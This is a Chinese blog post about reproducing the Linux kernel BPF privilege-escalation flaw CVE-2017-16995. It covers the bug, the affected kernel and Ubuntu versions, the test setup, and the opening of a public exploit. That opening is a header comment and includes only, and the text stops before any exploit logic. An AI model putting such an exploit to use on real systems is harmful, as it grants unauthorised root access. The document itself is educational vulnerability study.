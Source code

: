 ```yaml
---
layout: post
title: "[漏洞复现] CVE-2017-16995"
date: 2018-09-30
excerpt: "漏洞复现初试"
tags: [复现]
comments: true
---
```

# 前言
源于有个同学的课设是复现安全漏洞，刚好自己也没尝试过，借此机会找了一个看起来相对容易复现的漏洞体会一下复现过程。
# 漏洞概述
![](https://i.loli.net/2018/10/05/5bb6cc3580a5c.png)
内核中Berkeley Packet Filter（BPF）实现中, Linux内核4.14.8版本开始kernel/bpf/ verifier.c源码中的check_alu_op函数启用了不正确地执行符号扩展,可导致内存任意读写漏洞。一般用户可利用这个漏洞，实现任意代码，获得本地提权操作。

- 影响版本： 
- Linux内核：Linux Kernel Version 4.14 ~ 4.4 
- Ubuntu版本：16.04.01~ 16.04.04
- 主要影响Debian和Ubuntu发行版，Redhat和CentOS不受影响

# 环境搭建
![](https://i.loli.net/2018/10/05/5bb6cedde4b50.png)
看了一下平时用的ubuntu版本和linux内核刚好是在受影响的范围里，遂直接用这个来尝试。

# POC
事先下载了原作者的EXP代码（才知道poc是Proof of Concept的缩写，意思是为观点提供证据），代码不长。

    /*
     * Ubuntu 16.04.4 kernel priv esc
     *
     * all credits to @bleidl
     * - vnik
     */
    
    // Tested on:
    // 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64
    // if different kernel adjust CRED offset + check kernel stack size
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <errno.h>
    #include <fcntl.h>
    #include <string.h>
    #include <linux/bpf.h>
    #include <linux/unistd.h>
    #include <sys/mman.h>
    #include <sys/types.h>
    #include <sys/socket.h>
    #include <sys/un.h>
    #include <sys/stat.h>
    #include <stdint.h>
    